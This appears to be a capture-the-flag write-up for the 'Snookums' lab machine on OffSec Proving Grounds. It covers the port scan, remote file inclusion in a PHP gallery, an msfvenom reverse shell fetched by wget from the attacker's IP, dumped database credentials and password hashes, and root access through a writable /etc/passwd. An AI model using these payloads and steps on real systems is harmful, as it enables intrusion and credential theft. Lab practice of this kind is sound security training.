 # Snookums

## Info

Snookums is an intermediate linux machine from offsec proving gorunds.

## Nmap

All tcp port scan.

```
21/tcp    open  ftp         syn-ack ttl 61 vsftpd 3.0.2
22/tcp    open  ssh         syn-ack ttl 61 OpenSSH 7.4 (protocol 2.0)
80/tcp    open  http        syn-ack ttl 61 Apache httpd 2.4.6 ((CentOS) PHP/5.4.16)
111/tcp   open  rpcbind     syn-ack ttl 61 2-4 (RPC #100000)
139/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 3.X - 4.X (workgroup: SAMBA)
445/tcp   open  netbios-ssn syn-ack ttl 61 Samba smbd 4.10.4 (workgroup: SAMBA)
3306/tcp  open  mysql       syn-ack ttl 61 MySQL (unauthorized)
33060/tcp open  mysqlx?     syn-ack ttl 61
```

## User

Simple php gallery is vulnerable to RFI.

```
http://192.168.192.58/image.php?img=http://192.168.45.187/test.php
```

Create bin.

```
msfvenom -p linux/x64/shell_reverse_tcp LHOST=192.168.45.187 LPORT=21 -f elf > shell
```

Transfer bin to the machine.

```
echo '<?php system("wget http://192.168.45.187/shell -O /tmp/shell ; chmod +x /tmp/shell"); ?>' > get.php
```

Execute shell.

```
echo '<?php system("/tmp/shell"); ?>' > shell.php
```

The following creds were found in /var/www/html/db.php

```
define('DBUSER', 'root');
define('DBPASS', 'MalapropDoffUtilize1337');
```

Credentials found in SimplePHPGal database.

```
josh VFc5aWFXeHBlbVZJYVhOelUyVmxaSFJwYldVM05EYz0=
michael U0c5amExTjVaRzVsZVVObGNuUnBabmt4TWpNPQ==
serena  VDNabGNtRnNiRU55WlhOMFRHVmhiakF3TUE9PQ==
```

michael credentials.

```
HockSydneyCertify123
```

## Root

/etc/passwd is writable, remove the x from root:x: and switch user to root without password.

